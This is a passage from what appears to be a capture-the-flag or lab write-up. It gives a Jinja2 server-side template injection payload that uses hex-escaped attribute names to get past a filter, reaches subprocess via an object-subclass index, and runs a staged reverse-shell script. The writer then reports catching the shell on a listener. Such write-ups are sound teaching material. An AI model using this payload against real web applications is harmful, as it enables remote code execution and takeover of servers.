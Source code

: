 Now we're good to go, let's use the following payload and fire up our listener:

```python
{{()|attr('\x5f\x5fclass\x5f\x5f')|attr('\x5f\x5fbase\x5f\x5f')|attr('\x5f\x5fsubclasses\x5f\x5f')()|attr('\x5f\x5fgetitem\x5f\x5f')(287)('bash /dev/shm/rev.sh &',shell=True)}}
```

Once we create the account and login, we can see this:

![Pasted image 20250805180305.png](../../IMAGES/Pasted%20image%2020250805180305.png)

In our listener, we get the connection:

![Pasted image 20250805180309.png](../../IMAGES/Pasted%20image%2020250805180309.png)
